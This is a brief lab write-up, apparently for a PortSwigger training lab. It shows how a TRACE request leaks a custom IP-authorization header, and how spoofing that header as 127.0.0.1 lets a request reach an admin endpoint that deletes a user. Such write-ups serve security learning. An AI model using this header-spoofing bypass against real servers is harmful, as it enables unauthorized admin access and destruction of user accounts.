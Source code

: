 # Authentication bypass via information disclosure

[Lab](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass)

- Sending `TRACE /login HTTP 1.1`, server responded with `X-Custom-IP-Authorization: 179.55.106.85` header
- Just add `X-Custom-IP-Authorization: 127.0.0.1` header to `GET /admin/delete?username=carlos` request